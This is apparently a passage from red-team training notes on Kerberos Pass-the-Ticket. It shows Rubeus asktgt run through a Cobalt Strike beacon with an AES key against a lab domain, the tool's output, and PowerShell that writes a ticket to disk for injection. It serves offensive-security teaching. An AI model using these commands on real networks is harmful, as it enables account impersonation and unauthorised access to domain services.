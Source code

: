 
_Pass the Ticket_ (or PtT), is a technique [T1550.003](https://attack.mitre.org/techniques/T1550/003/) that allows an adversary to leverage stolen, forged, or requested Kerberos tickets for user impersonation.  As with PtH, this can be implemented in different ways.  Tools like Impacket implement the Kerberos protocol for remote authentication, and tools like Rubeus inject tickets into the credential cache of a given logon session.

PtT is superior to PtH in a few important aspects.  Kerberos authentication is not anomalous, nor is it restricted as with NTLM; and passing tickets into a logon session can be done with native Windows APIs, so it does not rely on patching LSASS memory.  This makes it more stealthy, and isn't prevented by PPL.

### Requesting TGTs

We already saw in the [Credential Access](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=67851a86ba9789af1107f5f9) section how Kerberos tickets can be extracted from memory.  But the adversary can also legitimately request Kerberos tickets on behalf of a user if they have their NTLM hash or AES encryption keys.  Using an NTLM hash will return RC4-encrypted tickets, which is generally not advisable.

Rubeus' `asktgt` command can be used with a user's AES key.  This will return a ticket in base64 encoded format.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960
[*] Building AS-REQ (w/ preauth) for: 'CONTOSO.COM\rsteel'
[*] Using domain controller: 10.10.120.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFo[...snip...]kNPTQ==

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  rsteel (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  17/02/2025 13:18:21
  EndTime                  :  17/02/2025 23:18:21
  RenewTill                :  24/02/2025 13:18:21
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  7ImgleIR6fnHZCxJW7MJUCabAjxvIsMS7Z55VRPaEHU=
  ASREP (key)              :  05579261E29FB01F23B007A89596353E605AE307AFCD1AD3234FA12F94EA696
```

## Injecting TGTs

Beacon has a `kerberos_ticket_use` command, which applies the given TGT to the current session.  The ticket must exist as a .kirbi file on the computer running the Cobalt Strike client.  If you have a base64 encoded ticket from Rubeus, you can write it to disk using PowerShell.

```powershell
$ticket = "doIFo[...snip...]kNPTQ=="
[IO.File]::WriteAllBytes("C:\Users\Attacker\Desktop\rsteel.kirbi", [Convert]::FromBase64String($ticket))
```

If you pass a TGT into a logon session that already has one, then you'll overwrite the existing ticket.  For example, if your Beacon is running in the context of pchilds and you inject a TGT for rsteel into the current session, pchilds' TGT will be replaced with rsteel's.  We want to avoid clobbering tickets as much as possible because, although we want to leverage the ticket, we don't want to impact the real user's access to services in the domain.

The optimal strategy is to create a new logon session that we can impersonate.  This lets us use the Kerberos ticket, without affecting a user's existing logon session.  Before doing so, this `klist` output shows our current LUID is **0x11f831e**.  It contains a TGT and LDAP service ticket for pchilds.

![[Pasted image 20250710224809.png]]
